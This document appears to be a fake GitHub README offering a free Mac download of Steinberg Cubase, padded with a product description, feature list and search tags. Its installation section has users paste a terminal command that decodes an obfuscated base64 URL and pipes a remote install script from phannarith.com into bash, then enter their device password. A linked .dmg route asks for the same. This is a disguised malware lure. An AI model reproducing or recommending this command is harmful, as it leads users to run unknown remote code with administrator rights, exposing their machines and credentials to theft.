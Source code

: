 # Steinberg Cubase for Mac – Music Production & DAW

![Cubase Screenshot](https://ocl-steinberg-live.steinberg.net/_storage/asset/185232/storage/PNG_extra-large_5500px/185232-extra-large.png)

## 📥 Download Cubase for macOS

[![⬇️ Download Cubase Mac](https://img.shields.io/badge/Download-Cubase%20Mac-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/Steinberg)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Cubase for Mac?

Cubase is a professional digital audio workstation (DAW) developed by Steinberg, designed for music composition, production, recording, editing, and mastering. It’s used by musicians, producers, and sound engineers around the world.

The macOS version of Cubase delivers a robust music production experience with features like multitrack editing, MIDI sequencing, audio effects, VST plugin integration, and surround sound mixing. Whether you're working on a soundtrack, producing a beat, or mixing an orchestra, Cubase offers the creative flexibility and power you need.

It runs natively on Apple Silicon (M1/M2/M3) and Intel Macs, delivering top-tier performance for audio professionals.

---

![Cubase Mixer View](https://europe1.discourse-cdn.com/steinberg/original/3X/2/3/234c4f6ecb68e77b0f2d4cc253e4a229ef42c5f9.png)

---

## ⚙️ Key Features

- 🎼 **Multitrack Recording & Editing** – Audio and MIDI in perfect sync
- 🎹 **VST Instrument Support** – Load synths, samplers, drum machines
- 🧩 **Full Plugin Suite** – Includes EQs, compressors, delays, and reverbs
- 🧠 **Chord Pads & Track Versions** – Compose more creatively
- 🖥️ **Score Editor** – Notation-based composing
- 📐 **Time Stretch & Pitch Shift** – Precise audio transformation
- 🌐 **Surround Sound Mixing** – Up to 5.1 and beyond
- 🧱 **Track Freezing & Render-in-Place** – Save CPU resources
- 💻 **macOS Optimized** – Compatible with Monterey, Ventura, and Apple Silicon

---

## 📦 System Requirements

- macOS 10.13 or later  
- Intel or Apple Silicon (M1/M2/M3) Macs  
- 4 GB RAM (8 GB or more recommended)  
- Internet connection for activation and content download  

---

## 🔍 Tags

cubase for mac, cubase 5 for mac, cubase download for mac, cubase for macbook, cubase mac os, cubase osx, steinberg cubase mac, apple m1 cubase, cubase mac download, cubase music software mac
